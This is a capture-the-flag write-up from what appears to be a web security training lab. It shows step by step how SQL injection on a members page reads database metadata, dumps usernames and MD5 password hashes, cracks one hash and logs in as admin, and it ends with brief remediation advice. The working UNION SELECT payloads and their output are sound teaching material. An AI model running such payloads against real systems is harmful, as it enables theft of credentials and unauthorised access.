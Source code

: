 ## How we found the flag

- By doing sql inject on the memebers page (/index.php?page=member), we can find the database table schema, including table schema names, table names and column names.

- First, we can find out database with `1 UNION SELECT 1, version() limit 1,1`, the DB version is `5.5.64-MariaDB-1ubuntu0.14.04.1`.

- We are interested in finding tables containing user password.

- INFORMATION_SCHEMA provides access to database metadata (mysql), see [doc](https://dev.mysql.com/doc/refman/8.3/en/information-schema-table-reference.html).

- Get all the table name with their column names with `-1 UNION SELECT table_name, column_name FROM information_Schema.columns`

- Search "pass" on the result page, we now know that table "db_default" has a "password" column
```
ID: -1 UNION SELECT table_name, column_name FROM information_Schema.columns 
First name: db_default
Surname : password
```
We also have the "username" column in table "db_default"
```
ID: -1 UNION SELECT table_name, column_name FROM information_Schema.columns 
First name: db_default
Surname : username
```

- If we try `-1 UNION SELECT username, password from db_default`, we get this output:
```
Table 'Member_Sql_Injection.db_default' doesn't exist
```
This means "db_default" is not inside the "Member_Sql_Injection" schema.
- We can get its schema name with `-1 UNION SELECT table_schema, table_name FROM information_Schema.tables`, search "db_default", output:
```
ID: -1 UNION SELECT table_schema, table_name FROM information_Schema.tables 
First name: Member_Brute_Force
Surname : db_default
```

- Then with `-1 UNION SELECT username,password FROM Member_Brute_Force.db_default`, we get:
```
ID: -1 UNION SELECT username,password FROM Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

ID: -1 UNION SELECT username,password FROM Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

- Decrypt "3bf1114a986ba87ed28fc1b5884fc2f8" with https://www.dcode.fr/cipher-identifier, the most likly algorithm is MD5, the decrypted value is "shadow".

- Sign in with
```
username: "admin" or "root"
password: shadow
```
to get the flag

## How to exploit the breach
- We can now access the website with an admin account.

## What's the correct way
- Enforce input validation to prevent sql injection
- Limit user privileges on sensitive tables
- Use a stronger, or double encrytion method for storing password or other sensitive information
